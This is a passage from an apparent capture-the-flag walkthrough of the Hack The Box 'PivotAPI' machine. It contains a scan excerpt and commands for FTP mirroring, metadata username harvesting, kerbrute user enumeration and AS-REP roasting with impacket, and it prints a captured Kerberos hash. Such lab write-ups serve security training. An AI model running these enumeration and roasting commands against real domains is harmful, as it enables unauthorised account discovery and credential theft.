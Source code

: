 ```bash
|       Product: Microsoft SQL Server 
|_    TCP port: 1433
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2023-04-07T15:22:06
|_  start_date: N/A

```

Hostnames:
`LicorDeBellota.htb, PivotAPI.LicorDeBellota.htb`

## FTP
Grab everything
```bash
wget -m ftp://10.10.10.240/
```

Possible username list.
```bash
exiftool * | grep 'Creator\|Author' | awk '{print $3}'
```

After tidying it up:
```
saif
byron
byron.gronseth
b.gronseth
cairo
Kaorz
alex
```

Userenum with kerbrute.
```bash
/opt/kerbrute userenum --dc 10.10.10.240 -d LicorDeBellota.htb users.txt
```

Gives back a valid user of: `Kaorz@LicorDeBellota.htb`

# Authenticated SMB
Try reproast?
```bash
python3 /opt/impacket/examples/GetNPUsers.py licordebellota.htb/ -usersfile users.txt

$krb5asrep$23$Kaorz@LICORDEBELLOTA.HTB:a83a8e308b9255925ca36065b2dfc5ee$ffc1b5ffbe6b2f70ed17d53f52a2b98a616d525b898c54c4a13dae48a9140df84efa0642b29d01882857225fd11af258a2520b83fb806ecde601b8bd94dbcacbeb578542e12bb760a142d7dcd82193b5a3cd594ea9335b480c5f337acc5a85ea1337bf7c2514996c3ba540b65c24b024d883e7c67c7fd1429156595edb2189e33eebe296d0ecdcb9a27b66309cb6d8e78a2b7b4572876182d75f22439e7864d00d35d25bd27d1f45e68e4c2b105809380a9bfcee44ae42de74089fb483055548c24811e00fbe464d149da4392d62d1b89d5276d8ffd75c04d5e9030e175fa5f45071a29651183b9dc8af8461879a8c45aade1d9743044337
```
